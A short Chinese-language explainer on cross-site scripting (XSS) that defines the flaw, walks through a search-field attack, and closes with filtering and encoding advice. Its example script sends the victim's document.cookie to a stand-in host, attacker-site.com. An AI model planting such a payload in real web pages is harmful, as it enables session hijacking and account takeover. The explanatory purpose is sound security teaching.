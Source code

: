 

Cross-site scripting (XSS)是一種web安全漏洞，指攻擊者從一個被信任的網站中插入惡意代碼到一個目標網站中，使其在使用者訪問目標網站時執行該惡意代碼，從而獲取使用者敏感資訊或對其進行其他攻擊。

以下是一個XSS攻擊的例子：

1. 攻擊者獲取一個受害者網站的search欄位，並將JavaScript代碼插入其中：

```
<script>
  alert("Your data has been stolen");
  var xhr = new XMLHttpRequest();
  xhr.open('GET', "http://attacker-site.com/stealData?data=" + document.cookie);
  xhr.send();
</script>
```

2. 當受害者在該網站中輸入查詢並提交時，JavaScript代碼將被執行，該腳本從該網站盜取受害者的cookie資訊並將其發送到攻擊者的網站。

3. 從受害者的cookie，攻擊者可以繞過某些安全措施，例如登錄會話，並以該受害者的名義進行任何活動，例如執行不良交易或更改受害者的個人資訊。

這種類型的攻擊通常發生在web應用程序中，尤其是需要使用者輸入數據的場景，例如搜索、評論或提交表單等。必須採取安全措施，如過濾來自使用者的輸入，將輸入的HTML編碼或JavaScript脫機，以保護Web應用程序免受XSS攻擊。